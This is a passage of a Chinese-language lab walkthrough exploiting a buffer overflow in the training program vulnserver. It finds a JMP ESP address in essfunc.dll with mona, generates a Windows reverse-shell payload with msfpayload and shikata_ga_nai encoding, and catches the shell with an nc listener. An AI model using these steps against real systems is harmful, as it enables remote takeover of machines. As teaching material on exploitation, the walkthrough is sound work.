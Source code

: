 如果我们能在essfunc.dll中找到这些字符序列，那么我们就能用它们开发漏洞利用程序。

![enter image description here](http://drops.javaweb.org/uploads/images/67187366254769adf14712f714e75899c8401e65.jpg)

在调试器中使用如下命令：

```
!mona find -s "\xff\xe4" -m essfunc.dll

```

共发现9个，我们使用第一个地址`625011af`。

![enter image description here](http://drops.javaweb.org/uploads/images/fa168ca6eb074ed2b74fcfe7bdfaeda1f567b809.jpg)

**生成反弹shell代码**

查询攻击端IP地址，作为受害端反向连接的IP。

![enter image description here](http://drops.javaweb.org/uploads/images/84ad8ad18867012aa5818561fe4c7c4e9184301c.jpg)

指定IP、端口、编码器x86/shikata_ga_nai生成shellcode。

```
msfpayload windows/shell_reverse_tcp LHOST="192.168.175.142" LPORT=443 EXITFUNC=thread R | msfencode -e x86/shikata_ga_nai -b '\x00'

```

![enter image description here](http://drops.javaweb.org/uploads/images/e52f9f3a4e2e856edb483a70fe312b444f286ef3.jpg)

生成完整测试代码。

![enter image description here](http://drops.javaweb.org/uploads/images/3b1d0edf223b276f276b0f55fd36523645b6580b.jpg)

运行`nc -nlvp 443`，监听443端口。

![enter image description here](http://drops.javaweb.org/uploads/images/df01adf672055b44ca60413ee963c6b6ebcd56fa.jpg)

运行vulserver，攻击端执行测试脚本 ./vs-shell，发送数据。

![enter image description here](http://drops.javaweb.org/uploads/images/46cb8eb8182e1c4e3c5cf3bf96141b7b8558a0b1.jpg)

攻击端获得反弹shell，可以查询信息。

![enter image description here](http://drops.javaweb.org/uploads/images/99be1a1341fe0be428312caf44a15e64b966c57d.jpg)

**测试栈空间代码执行情况**

在基本DEP开启条件下，测试漏洞代码在内存空间上的可执行情况。

![enter image description here](http://drops.javaweb.org/uploads/images/7d45ae066871f1d3df06ca9f778a50abd220e08d.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/9d51bab7942e1c784faf9e0b0b77c0ea4cf0cd8b.jpg)

![enter image description here](http://drops.javaweb.org/uploads/images/f62cf47031bd88cc03223a7c3fa7a0b190f06c2f.jpg)
